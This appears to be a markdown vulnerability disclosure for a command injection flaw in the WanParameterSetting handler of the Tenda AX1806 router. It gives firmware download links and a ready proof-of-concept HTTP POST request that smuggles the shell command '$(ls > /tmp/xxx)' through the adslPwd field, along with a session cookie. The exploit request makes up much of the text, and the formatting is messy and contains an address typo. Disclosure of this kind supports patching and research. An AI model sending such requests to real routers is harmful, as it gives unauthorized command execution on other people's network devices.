

# *** Command Injection Vulnerability in Tenda AX1806  **

## ***\*Overview\****

* ***\*Type\****: Command Injection Vulnerability

* ***\*Supplier\****: Tenda ( https://tenda.com.cn )

* **\*Product\**: WiFi router AX1806

* Firmware download address: \**** https://www.tenda.com.cn/download/detail-3306.html

* Firmware download address: \**** https://down.tenda.com.cn/uploadfile/AX1806/US_AX1806V21brv1001cn2988ZGDX01.zip

Tenda AX1806 uses a new generation of WIFI6 (802.11ax) technology, and combines higher number of subcarriers and 1024QAM modulation technology. Compared with wifi-5 routers, dual-band wireless internet access rate is greatly improved. WanParameterSetting has a Command Execution Vulnerability

## ***\*Description\****

### ****1, Product Information:\****

Overview of the latest version of Tenda AX1806 router simulation:



 

 

 

\### ****2. Vulnerability Details\****

Tenda AX1806 was found to have a command injection vulnerability in the WanParameterSetting function


The non-zero is true, and when we change the adslPwd parameter, we get a command injection vulnerability after setting it.

 


## ***\*3. Recurring loopholes and POC\****

To reproduce the vulnerability, the following steps can be followed:

Start firmware (real machine) via qemu-system or other means

Attack using the following POC attacks

Note the replacement of password fields in cookies

```
POST /goform/WanParameterSetting?0.8762489734485668 HTTP/1.1
Host: i92.168.68.150
Connection: close
Content-Length: 191
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="98", "Google Chrome";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.109 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: https://i92.168.68.150
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.2.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=edeff4d6d98974e46457a587e2e724a2ndy5gk

wanType=2&adslUser=aaaa&adslPwd=$(ls > /tmp/xxx)&vpnServer=&vpnUser=&vpnPwd=&vpnWanType=l&dnsAuto=1&staticIp=&mask=&gateway=&dnsl=&dns2=&module=wanl&downSpeedLimit=
```

 